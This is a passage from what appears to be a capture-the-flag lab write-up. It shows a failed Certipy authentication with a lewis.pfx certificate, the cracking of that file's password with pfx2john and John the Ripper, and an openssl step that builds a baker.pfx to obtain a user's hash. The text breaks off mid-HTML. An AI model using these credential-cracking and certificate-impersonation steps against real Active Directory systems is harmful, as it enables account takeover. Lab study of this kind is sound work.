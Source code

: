 ## Generate a pfx file to retrieve d.baker hash

We can try to authenticate with theses **.pfx files** :

```bash
➜ certipy auth -pfx lewis.pfx -dc-ip '10.129.28.117' -debug

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[-] Got error: Invalid password or PKCS12 data
Traceback (most recent call last):
  File "/root/.pyenv/versions/3.11.10/lib/python3.11/site-packages/certipy/entry.py", line 60, in main
    actions[options.action](options)
  File "/root/.pyenv/versions/3.11.10/lib/python3.11/site-packages/certipy/commands/parsers/auth.py", line 12, in entry
    auth.entry(options)
  File "/root/.pyenv/versions/3.11.10/lib/python3.11/site-packages/certipy/commands/auth.py", line 657, in entry
    authenticate = Authenticate(target=target, **vars(options))
                   ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/root/.pyenv/versions/3.11.10/lib/python3.11/site-packages/certipy/commands/auth.py", line 148, in __init__
    self.key, self.cert = load_pfx(f.read())
                          ^^^^^^^^^^^^^^^^^^
  File "/root/.pyenv/versions/3.11.10/lib/python3.11/site-packages/certipy/lib/certificate.py", line 321, in load_pfx
    return pkcs12.load_key_and_certificates(pfx, password)[:-1]
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
ValueError: Invalid password or PKCS12 data
```
But it doesn't work, we can try to crack it with **pfx2john**

```bash
➜ pfx2john.py lewis.pfx > hash.txt

➜ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 SSE2 4x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 256 for all loaded hashes
Will run 12 OpenMP threads
Note: Passwords longer than 16 [worst case UTF-8] to 48 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
REDACTED      (lewis.pfx)
```
Now we can try to generate the **baker pfx file** with ```baker.key``` and ```baker.crt``` thanks to openssl :

```bash
openssl pkcs12 -export -out baker.pfx -inkey baker.key -in baker.crt

Enter pass phrase for baker.key:
Enter Export Password:
Verifying - Enter Export Password:
```
<div style="
  background-color: #0d1117;
  border: 1px solid #1f6feb;
  border-radius: 6px;
  padding: 16px;
  color: #c9d1d9;
  margin: 1.5em 0;
  font-family: system-ui, sans-serif;